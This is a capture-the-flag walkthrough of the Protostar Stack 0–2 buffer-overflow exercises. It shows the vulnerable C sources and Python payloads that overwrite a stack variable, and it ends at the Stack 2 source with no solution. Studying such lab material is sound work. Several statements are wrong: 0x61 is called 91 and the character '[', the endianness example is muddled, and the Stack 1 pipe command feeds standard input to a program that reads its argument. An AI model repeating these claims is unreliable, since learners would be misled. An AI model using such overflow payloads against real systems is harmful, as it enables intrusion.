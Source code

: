 # Protostar Stack levels

## Stack 0
For this level we have to exploit the following C code.

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)  
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
    printf("you have changed the 'modified' variable\n");
  } else {
    printf("Try again?\n");
  }
}
```

As we can see here. The main function is calling `gets()`.
Running `man gets` we see it is a C library function which reads a line from standard input and stores the string inside the supplied buffer.
The man page also warns that gets does not check for the size of the string! 

The program starts by initialising the stack. The stack looks like this. 
```C
Data...
buffer[64]
modified
More data...
```
Since this a 32 bit system, modified will be 4 bytes (32 bits = 4 bytes). So we can type 1 to 4 characters to overwrite it.
The modified variable is right above the buffer, we need to write 64 characters to fill the buffer, then 1 character to change modified.

We can do this with a nice little python script: Piping the followning output into the program will overwrite the modified variable
```python
print 'A'*64 + 'BBBB'
```


##Stack 1

Here is the supplied C Code
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)  
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
    errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
    printf("you have correctly got the variable to the right value\n");
  } else {
    printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Stack1 is very similar to Stack0, however now we have to write a specific value into the buffer. Specifically 0x61626364
This is a hex number, 0x61 = 91. 

Let's take a step back and talk about *endianness*. Computers are really lazy.
Modern computers store data in many ways. The most common is in a format called **little endian**.
Little endian stores the least significant byte first. This means that if you wanted to store the binary number *01101001*, it would be stored as *01101001*. But if you wanted to store a 4 byte word, (0xFF = 11111111, 0x00 = 00000000), In memory storing **0x123456** would look like **0x563412**. Little endianness changes the location of entire *bytes*, not the *bits*.
This challenge is extremely similar to Stack 0. But in order to get the number *0x61626364* to appear correctly, we would have to enter it in a little endian manner. This means enterring **0x64636261**.
The program is expecting characters not numbers, so we have to convert each byte, into a character. For example 0x61 = *[*.
But this is annoying to do, python has a nice short hand to doing it, if you just `print '\x61'` it will print [. 

So similar to Stack 0, we can use the following python script to print our attack
```python
print "A"*64 + "\x64\x63\x62\x61"
```
To pipe this input into our program we can do `python -c 'print "A"*64 + "\x64\x63\x62\x61"' | ./stack1`

##Stack 2

Supplied C Code is
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)  
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
    errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
    printf("you have correctly modified the variable\n");
  } else {
    printf("Try again, you got 0x%08x\n", modified);
  }

}
```
